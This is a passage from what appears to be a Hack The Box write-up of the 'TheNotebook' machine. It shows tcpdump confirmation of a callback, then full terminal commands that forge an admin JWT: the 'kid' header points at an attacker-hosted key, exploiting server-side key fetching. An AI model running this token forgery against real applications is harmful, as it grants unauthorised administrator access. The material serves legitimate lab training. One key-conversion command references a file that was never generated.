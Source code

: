 ```bash
┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ sudo tcpdump -i tun0 -n port 7070                        
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
17:47:46.263302 IP 10.10.10.230.38902 > 10.10.14.24.7070: Flags [S], seq 2910523052, win 64240, options [mss 1357,sackOK,TS val 1904549514 ecr 0,nop,wscale 7], length 0
17:47:46.263348 IP 10.10.14.24.7070 > 10.10.10.230.38902: Flags [R.], seq 0, ack 2910523053, win 0, length 0
```

## Foothold

Due to the **SSRF vulnerability**, the server can be tricked into **using an arbitrary key to validate the token**. This issue can be exploited by making the server **accept an arbitrary token with high privileges**, allowing to authenticate to the application as administrators instead of standard users.

Taking inspiration from the [following Akamai article](https://learn.akamai.com/en-us/webhelp/iot/jwt-access-control/GUID-BD7079F4-09ED-4FAB-A923-4ACFE254BA3E.html), a pair of rsa keys was created:

```bash
┌──(kali㉿kali)-[~/…/box/TheNotebook/exploit/keys]
└─$ openssl genrsa -out jwtRSA256-private.pem
Generating RSA private key, 2048 bit long modulus (2 primes)
............................................................................................................+++++
...........................................................................................+++++
e is 65537 (0x010001)

┌──(kali㉿kali)-[~/…/box/TheNotebook/exploit/keys]
└─$ openssl rsa -in jwtRS256.key -pubout -outform PEM -out jwtRS256.key.pub
writing RSA key

┌──(kali㉿kali)-[~/…/box/TheNotebook/exploit/keys]
└─$ openssl rsa -in jwtRSA256-private.pem -pubout -outform PEM -out jwtRSA256-public.pem

writing RSA key
```

Then following [this other Akamai article](https://learn.akamai.com/en-us/webhelp/iot/jwt-access-control/GUID-CB17F8FF-3367-4D4B-B3FE-FDBA53A5EA02.html) an arbitrary JWT containing admin privileges was created :

```bash
┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ echo -n '{"typ":"JWT","alg":"RS256","kid":"http://10.10.14.24/privKey.key"}' | base64 | sed s/\+/-/ | sed -E s/=+$// > token.header

┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ echo -n '{"username":"maoutis","email":"maoutis@hackthebox.htb","admin_cap":1}' | base64 | sed s/\+/-/ | sed -E s/=+$// > token.payload

┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ cat token.*
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4yNC9wcml2
S2V5LmtleSJ9
eyJ1c2VybmFtZSI6Im1hb3V0aXMiLCJlbWFpbCI6Im1hb3V0aXNAaGFja3RoZWJveC5odGIiLCJh
ZG1pbl9jYXAiOjF9

┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4yNC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6Im1hb3V0aXMiLCJlbWFpbCI6Im1hb3V0aXNAaGFja3RoZWJveC5odGIiLCJhZG1pbl9jYXAiOjF9" | openssl dgst -sha256 -binary -sign  keys/jwtRSA256-private.pem | openssl enc -base64 | tr -d '\n=' | tr -- '+/' '-_' > token.signature
```
